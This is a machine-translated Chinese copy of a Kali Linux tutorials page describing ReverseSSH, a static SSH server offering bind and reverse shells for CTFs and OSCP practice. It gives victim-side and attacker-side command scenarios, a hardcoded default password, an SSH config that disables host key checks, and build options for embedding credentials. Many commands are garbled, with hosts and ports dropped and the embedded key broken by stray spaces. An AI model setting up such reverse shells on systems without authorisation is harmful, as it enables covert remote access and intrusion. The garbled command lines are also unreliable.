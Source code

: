 # ReverseSSH:静态链接的 SSH 服务器，具有针对 CTF 等的反向 Shell 功能

> 原文：<https://kalilinuxtutorials.com/reversessh/>

[![Privacy Badger : A Browser Extension Automatically Learns To Block Invisible Trackers](img//7822df61f433f0571aa4118a2004a12c.png "Privacy Badger : A Browser Extension Automatically Learns To Block Invisible Trackers")](https://1.bp.blogspot.com/-iDjAdd1KHe8/YSSYKe43V5I/AAAAAAAAKiY/LPeSNS2AYQkc0BOL1u2OP5euIXpU6NNegCLcBGAsYHQ/s569/ReverseSSH-SSH-Server-with-Reverse-Shell-Functionality-370x247%2B%25281%2529.png)

ReverseSSH 是一个静态链接的 SSH 服务器，具有反向连接功能，用于简单而强大的远程访问。在黑盒子挑战，CTFs 或类似的比赛中最有用。

在 OSCP 考试准备期间被广泛使用。

**特性**

用 *netcat* 捕捉一个反向外壳是很酷的，当然，但是谁没有因为肌肉记忆而不小心用键盘中断关闭一个反向外壳呢？除了脆弱之外，这种外壳还经常缺少一些便利功能，比如完全交互式访问、标签补全或历史记录。

相反，你可以简单地将**轻量级 ssh 服务器** ( < 1.5MB) `**reverse-ssh**`部署到目标上，并使用额外的商品，如**文件传输**和**端口转发**！

ReverseSSH 试图在最初立足于目标和完全本地权限提升之间架起一座桥梁。其主要优势如下:

*   **完全交互式外壳访问**(查看下面的 windows 注意事项)
*   **通过 sftp 传输文件**
*   **本地/远程/动态端口转发**
*   **可用作绑定和反向外壳**
*   支持 **Unix** 和 **Windows** 操作系统

**Windows 警告**

windows 上的完全交互式 powershell 依赖于 Windows 伪控制台概念，因此至少需要`**Win10 Build 17763**`。在早期版本中，你仍然可以得到一个交互式的反向外壳，它不能处理虚拟终端代码，比如箭头键或键盘中断。在这种情况下，您必须添加`**cmd**`命令，即`**ssh <OPTIONS> <IP> cmd**`。

您可以通过将 [](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) OpenSSH for windows 中的`**ssh-shellhost.exe**`放在与`**reverse-ssh**`相同的目录中，然后使用标志`**-s ssh-shellhost.exe**`，来实现对旧版本 Windows 的完全交互式 shell 访问。这将通过`**ssh-shellhost.exe**`传输所有流量，它模仿 pty 并转换所有虚拟终端代码，以便 windows 可以理解。

**要求**

简单地执行提供的二进制文件只依赖于 golang 系统的要求。

简而言之:

*   **Linux** :内核版本 2.6.23 及更高版本
*   **Windows**:Windows Server 2008 R2 及更高版本或 Windows 7 及更高版本

编译还需要以下内容:

*   golang 版本 1.15
*   可选的`upx`用于压缩(例如`**apt install upx-ucl**`

**用法**

一旦`**reverse-ssh**`开始运行，您就可以使用任何用户名和默认密码`**letmeinbrudipls**`、ssh 密钥或您在编译期间指定的任何东西进行连接。毕竟，它只是一个 ssh 服务器:

**#全交互 shell 访问
ssh-P
#简单的命令执行
ssh-P whoami
#成熟的文件传输
sftp-P
#在端口 9050 上作为 SOCKS 代理的动态端口转发
ssh -p -D 9050**

**简单绑定外壳场景**

**#受害者
受害者$。/reverse-ssh
#攻击者(默认密码:letmeinbrudipls)
攻击者$ssh -p 31337**

**简单的反向外壳场景**

**#On 攻击者(准备捕捉传入的请求；
#可以省略，如果你已经有一个 ssh 守护进程在运行，例如 OpenSSH)
攻击者$。/reverse-ssh -l :
#On 受害者
受害者$。/reverse-ssh-p
#或者在 ssh 守护进程使用用户/pass 身份验证在端口 22 侦听的情况下
victim$。/reverse-ssh @
#On 攻击者(默认密码:letmeinbrudipls)
攻击者$ssh-p 8888 127 . 0 . 0 . 1
#或使用下面的 ssh 配置
攻击者$ ssh 目标**

最后，它是普通的 ssh，因此您可以通过监听端口 22 的 openssh 守护程序捕获来自受害者机器的远程端口转发调用。只需在前面加上`**<USER>@**`并在要求时提供密码。目前打电话回家只有密码，因为我还不想在那里烤一个私人钥匙…

为了更加方便，将以下内容添加到您的`**~/.ssh/config**`中，将**的 ssh 私钥**复制到`**~/.ssh/**`中，然后简单地调用`**ssh target**`或`**sftp target**`:

**主机目标
主机名 127.0.0.1
端口 8888
标识文件~/。ssh/id _ reverse-ssh
identities only yes
stricthostkey checking no
usernownhostsfile/dev/null**

**完全使用**

**reverseSSH v1.1.0 版权所有(C)2021 Ferdinor[ferdinor@mailbox.org](mailto:ferdinor@mailbox.org)
用法:reverse-ssh【选项】[@]
示例:
Bind:
Reverse-ssh
Reverse-ssh-v-l:4444
Reverse:
Reverse-ssh 192 . 168 . 0 . 1
Reverse-ssh kali @ 192 . 168 . 0 . 1【T11(默认:/bin/bash)
对于 windows，这只能用于提供“ssh-shellshost.exe”的路径，以
增强 Windows10 之前的 shell(例如‘-s ssh-shellhost . exe’如果在同一个目录中)
-l，仅绑定场景:在此地址侦听:port(默认::31337)
-p，仅反向场景:ssh 端口在家中(默认:22)
-b，仅反向场景:可以在前面加上
@以在拨打家庭电话时作为不同于“反向”的用户进行身份验证。
凭证:
接受来自具有以下任一项的任何用户的所有传入连接:
*密码" letmeinbrudipls "
* PubKey " ssh-ed 25519 aaac 3 nza 1 lzdi 1 NTE 5 aaaaaiklbjwr+ueq 0 gojy 4 qwr 2 suw CNC/y 9 ev 9 rdy 3 plo 7 bk/Brudi "**

**构建指令**

确保在匹配版本中安装 golang 等上述要求，并正确设置。之后，可以用`**make**`进行编译，这将在`**bin**`中创建静态二进制文件。使用`**make compressed**`用 upx 打包二进制文件以进一步减小它们的大小。

**make
#或者对另外创建的二进制文件用 upx
打包进行压缩**

在编译时，您还可以指定不同的默认外壳(`**RS_SHELL**`)、个性化密码(`**RS_PASS**`)或授权密钥(`**RS_PUB**`):

**ssh-keygen-t ed 25519-f id _ reverse-ssh
RS _ SHELL = "/bin/sh " RS _ PASS = " secret " RS _ PUB = " $(cat id _ reverse-ssh . PUB)" make compressed**

**构建不同的操作系统或架构**

默认情况下，`**reverse-ssh**`是为您当前的操作系统和架构编译的，也是为 x86 和 x64 中的 linux 和 windows 编译的。要针对其他架构或其他操作系统进行编译，您可以提供与您的目标相匹配的环境变量，例如针对 linux/arm64:

**go arch = arm 64 GOOS = Linux make compressed**

格式为`**OS/arch**`的可用目标列表可通过`**go tool dist list**`获得

[**Download**](https://github.com/Fahrj/reverse-ssh)